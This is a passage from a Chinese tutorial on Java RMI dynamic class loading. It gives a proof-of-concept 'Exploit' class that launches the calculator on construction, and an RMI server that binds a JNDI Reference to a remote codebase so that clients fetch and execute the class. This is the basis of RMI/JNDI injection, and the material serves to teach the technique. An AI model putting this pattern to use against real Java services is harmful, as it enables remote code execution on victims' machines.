 
先启动服务端，在启动客户端，可以看见客户端没有RmiSample接口的具体实现下，正确输出1+1=2，这里客户端调用了远程服务端的实现方法使程序正常运行。  

#### 2.1 RMI动态加载类**<span id = "jump"></span>**  

从上述Demo中我们可以了解RMI的简单实现方法，RMI除了实现远程方法调用以外，还有一个核心特点是动态加载类。如果当前JVM中没有某个类的定义，它可以通过http协议去网络下载这个类的class，实现动态扩展应用的功能。  

定义类Exploit，在其构造方法中启动计算器应用，让RMI动态加载该类，Exploit.java代码如下:  

```JAVA
public class Exploit {
    public Exploit() {
        try {
            if (System.getProperty("os.name").toLowerCase().startsWith("win")) {
                Runtime.getRuntime().exec("calc.exe");
            } else if (System.getProperty("os.name").toLowerCase().startsWith("mac")) {
                Runtime.getRuntime().exec("open /Applications/Calculator.app");
            } else {
                System.out.println("No calc for you!");
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

使用javac命令把Exploit.java编译成class文件，然后放到web服务器中。修改Demo工程RMIServerDemo的SmiSampleServer.java代码，让RMI服务器程序动态加载class文件，具体代码实现如下：  

```JAVA
package com.rmitest;

import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

import javax.naming.Reference;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

public class RmiSampleServer {

    public static void main(String[] args) {
        try {
            //创建RMI Registry，默认监听1099端口
            Registry registry = LocateRegistry.createRegistry(1099);
/*
            //实例化RmiSample对象
            RmiSample serverObj = new RmiSampleImpl();
            //把serverObj对象绑定Registry中，客户端可以通过在Registry查找SAMPLE-SERVER获取到serverObj
            registry.bind("SAMPLE-SERVER", serverObj);
            System.out.println("RMI服务已经启动....");
*/
            //存放class的远程服务器地址
            String remote_class = "http://127.0.0.1:8089/";
            //Reference对象代表存在于JNDI以外的对象的引用
            Reference reference = new Reference("Exploit", "Exploit", remote_class);
            ReferenceWrapper re = new ReferenceWrapper(reference);
            //把Reference对象绑定到Registry，客户端可以通过在Registry查找Exploit-SERVER获取到re对象
            registry.bind("Exploit-SERVER",re);
            System.out.println("RMI服务已经启动....");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```